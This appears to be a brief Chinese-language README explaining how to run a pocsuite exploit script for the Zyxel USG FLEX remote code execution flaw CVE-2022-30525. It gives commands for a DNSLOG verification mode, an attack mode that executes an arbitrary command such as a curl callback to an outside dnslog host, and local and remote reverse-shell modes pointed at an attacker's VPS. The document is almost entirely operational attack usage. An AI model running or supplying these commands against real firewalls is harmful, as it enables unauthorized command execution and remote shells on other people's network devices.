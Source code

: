 # 0x001 验证模式默认使用DNSLOG

pocsuite -r '.\Zyxel USG FLEX handler RCE CVE-2022-30525.py' -u https://127.0.0.1:8080 

![](image/1.png)

# 0x002 如DNSLOG无法使用可以使用自定义命令

pocsuite -r '.\Zyxel USG FLEX handler RCE CVE-2022-30525.py' -u https://127.0.0.1:8080 --attack --command "curl 11111111111.9lc786.dnslog.cn"

![](image/2.png)

# 0x003 shell模式

## 本地模式
pocsuite -r '.\Zyxel USG FLEX handler RCE CVE-2022-30525.py' -u https://127.0.0.1:8080 --shell

![](image/3.png)
## 远程模式
pocsuite -r '.\Zyxel USG FLEX handler RCE CVE-2022-30525.py' -u https://127.0.0.1:8080 --shell --lhost vpsip --lport vps端口

![](image/4.png)

